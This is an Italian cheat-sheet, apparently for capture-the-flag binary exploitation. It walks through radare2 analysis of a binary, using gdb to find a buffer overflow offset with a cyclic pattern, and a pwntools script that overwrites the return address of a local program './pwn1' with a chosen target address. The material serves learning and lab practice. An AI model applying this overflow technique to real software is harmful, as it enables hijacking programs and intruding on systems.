 radare2 .\nome_file

aaa

afl

iz	[VEDI LISTA OBA CHE FA]
ie	[VEDI ENTY POINT]
iM	[VEDI MAIN]

pdf @nome_funzione   o   s nome_funzione 	[MOSTA nome_funzione]
			 pdf	

V 	[VISUAL APPESENTATION OF THE BINAY]

______________________________

Se trovi segmentation fault: (fgets, in quanto funzione vecchi)
______________________________

un volta che si che è seg. fault:

gdb -q .\file_name

pattern crete 100000 

run

*paste di quello che ti dà il pattern*

Guarda I REGISTRI [RBP] e [RSP] che in questo caso sono quelli con là nostra stinga
Guarda L'INDIRIZZO CONTENUTO NEL REGISTRO [RIP] e Ricordalo per dopo

copia i primi 3 char di ogni Registro e fai:

pattern search ***        [*** sono i 3 char]

calcola l'offset di entrambi (il secondo Registro è il più accurato) e Ricordatelo
___________________________________________

Crea UN FILE exploit.py

from pwn import *

p = process('./pwn1')
garbage = 'a' * 140    #OFFSET
target_address = 0x080484ad  #CAMBIALO
address = p32(target_address)
msgin = garbage.encode('ascii') + address
p.sendline(msgin)
p.interactive()



